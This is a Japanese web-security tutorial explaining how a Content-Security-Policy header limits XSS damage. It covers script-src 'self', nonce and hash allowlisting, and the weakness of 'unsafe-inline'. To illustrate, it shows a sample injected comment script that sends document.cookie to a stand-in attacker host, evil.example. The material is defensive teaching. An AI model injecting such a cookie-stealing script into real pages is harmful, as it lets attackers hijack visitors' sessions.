

# CSP — XSS を防ぎきれない前提で被害を抑える

## 今日のゴール

- CSP が「実行してよいスクリプトの出どころ」をブラウザに宣言するヘッダーだと知る
- CSP のもとではインラインスクリプトは許可制になり、注入されても実行されないと知る
- エスケープが破られたときに備えて防御を重ねる、多層防御の考え方を知る

## 1 か所の見落としで抜け穴ができる

コメント欄に入力された文字列がそのまま HTML に埋め込まれると、閲覧者のブラウザで攻撃者の JavaScript が実行されてしまいます。

> **XSS**（クロスサイトスクリプティング）= 入力された文字列が HTML に埋め込まれ、閲覧者のブラウザで攻撃者の JavaScript が実行されてしまう攻撃

防御の基本は**エスケープ**です。

- **エスケープ**: `<` を `&lt;` のようなただの文字に変換する
- **React なら自動**: JSX に書いた文字列は自動でエスケープされる

それなら安心かというと、そうも言い切れません。エスケープは**出力するすべての場所で漏れなく効いていて初めて成立する**防御です。

- **自動の外に出る書き方が混ざる**: `dangerouslySetInnerHTML` のように、自動エスケープが効かない書き方がある
- **エスケープでは防げない経路がある**: `href` に入れたユーザー入力の `javascript:` スキームなど
- **完璧を保ち続けるのが難しい**: 何年も改修が続くコードベースで、全部の出力箇所を守り切るのは難しい

1 か所でも漏れれば XSS は成立します。そこで、注入を防ぐ対策とは別に、もう 1 つ発想の違う防御を重ねます。**万一スクリプトが注入されても、ブラウザに実行させない**。それが今日の主役、CSP です。

> **多層防御**（defense in depth）= 性質の違う守りを重ねる考え方。エスケープが第一の防御、CSP はそれが破られたときの第二の防御

## ブラウザに許可リストを宣言する CSP

> **CSP**（Content-Security-Policy）= HTTP レスポンスヘッダーの 1 つ。サーバーがページを返すときに付けると、「このページで実行してよいスクリプトの出どころはここだけ」とブラウザに宣言できる

```http
Content-Security-Policy: script-src 'self'
```

- **`script-src`**: 「スクリプトの許可元」を指定するディレクティブ（設定項目）
- **`'self'`**: このページと同じオリジン、つまり自分のサイトから配信されるスクリプトだけ実行してよい、という意味

ヘッダーを自由に付けられない環境では、HTML の `<meta>` タグでも同じ宣言ができます。

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

ディレクティブは `script-src` だけではありません。

| ディレクティブ | 指定するもの |
|--------------|------------|
| `script-src` | スクリプトの許可元。XSS 対策の要 |
| `img-src` | 画像の取得元 |
| `default-src` | すべての種類の既定値 |

## 注入されたスクリプトが実行されない流れ

エスケープに漏れがあり、攻撃者のコメントがそのまま HTML に埋め込まれてしまったとします。

```html
いい記事ですね！<script>fetch('https://evil.example/?steal=' + document.cookie)</script>
```

CSP がなければ、このスクリプトは閲覧者のブラウザで実行されます。`script-src 'self'` が宣言されていると、結果が変わります。

- 注入された `<script>` は HTML に直接書かれた**インラインスクリプト**であり、後述するとおり CSP のもとでは許可制なので、実行されない
- 攻撃者が自分のサーバーのファイルを読み込ませようと `<script src="https://evil.example/x.js">` を注入しても、`'self'` 以外の出どころなので、読み込まれない



ページのソースを見れば攻撃者の `<script>` は残っているのに、**注入はされたが実行されない**という状態を作れます。これが CSP の防御です。

ブロックされたとき、ブラウザは開発者ツールのコンソールにこんなエラーを出します。

```
Refused to execute inline script because it violates the following
Content Security Policy directive: "script-src 'self'".
```

どこかのサイトの開発者ツールでこの赤いエラーを見かけたら、それは CSP がスクリプトを 1 つ止めた跡です。

## インラインスクリプトが許可制になる理由

CSP で `script-src` を宣言すると、インラインスクリプトはデフォルトで実行されなくなります。

- `<script>...</script>` と HTML に直接書かれたコード
- `onclick="..."` や `onerror="..."` のような属性の中の JavaScript も同じ扱い

これは不便な仕様に見えて、CSP の防御力の核心です。攻撃者が入力欄から注入できるスクリプトは、まさにこのインラインスクリプトだからです。

> 「自分のサイトのファイルとして配信されるスクリプトは許可し、HTML に直接書かれたスクリプトは信用しない」。この線引きが、注入されたコードだけを狙い撃ちでブロックする

## 正当なインラインスクリプトを nonce で許可する

線引きが厳しいぶん、自分たちが意図して書いた正当なインラインスクリプトまで止まってしまいます。基本の対処はスクリプトを外部ファイルに移すことですが、どうしてもインラインで書きたい場合のために、個別に許可する仕組みが 2 つあります。

| 方式 | 許可の仕組み | 向く場面 |
|------|------------|---------|
| **nonce**（ノンス） | レスポンスごとに変わる使い捨てのランダムな値を、ヘッダーとスクリプトタグの両方に載せる | レスポンスごとに HTML を生成する動的なページ |
| **hash** | 許可したいスクリプトの中身から計算したハッシュ値（SHA-256 など）をヘッダーに載せる | ビルド時に中身が確定する静的サイト |

nonce はこう書きます。

```http
Content-Security-Policy: script-src 'self' 'nonce-Kx7fQ2mZ9pLw'
```

```html
<script nonce="Kx7fQ2mZ9pLw">
  console.log("nonce が一致するので、このスクリプトは実行される");
</script>
```

- **一致したものだけ実行**: ブラウザは、ヘッダーの値と一致する `nonce` 属性を持つスクリプトだけを実行する
- **攻撃者は値を知りようがない**: コメントを投稿する時点では、将来の閲覧者に返されるレスポンスの nonce は分からないので、正しい nonce 付きのスクリプトを注入できない
- **レスポンスごとに変えることが前提**: 固定の値を使い回すと、攻撃者もその値を付けたスクリプトを注入できてしまう

hash は、中身が 1 文字でも違えばハッシュが一致しないので、そのスクリプトだけがピンポイントで許可されます。

Next.js では `next.config.ts` の `headers` 設定でこのヘッダーを付けられます。nonce のようにレスポンスごとに値を変える場合は、すべてのリクエストがページの手前で通る `proxy.ts` で生成して埋め込む構成になります。

## 防御を打ち消す unsafe-inline

`script-src` に書ける値には、`'unsafe-inline'` というものもあります。

```http
Content-Security-Policy: script-src 'self' 'unsafe-inline'
```

- **意味**: インラインスクリプトをすべて許可する
- **結果**: 注入されたスクリプトも実行されるようになり、CSP ヘッダーを付けていても XSS への防御はほぼ消える
- **名前の由来**: だから unsafe と付いている

生まれ方には典型的な流れがあります。

1. 既存のサイトに後から CSP を入れる
2. 正当なインラインスクリプトが動かなくなる
3. 手っ取り早く `'unsafe-inline'` を足す
4. ヘッダーは付いているのに守れていない CSP ができあがる

設定の中に `'unsafe-inline'` の文字を見つけたら、「この CSP は XSS を止められるのか」と疑ってかまいません。この語彙があると、AI にも具体的に指示できます。

> CSP で `script-src` を絞って、正当なインラインスクリプトは nonce で許可して。`'unsafe-inline'` は使わないで

## まとめ

- CSP は HTTP レスポンスヘッダーで、実行してよいスクリプトの出どころをブラウザに宣言する仕組み
- インラインスクリプトは許可制になるため、注入されたスクリプトは実行されない（正当なものは nonce や hash で許可）
- `'unsafe-inline'` は防御をほぼ打ち消すので、設定で見かけたら疑う
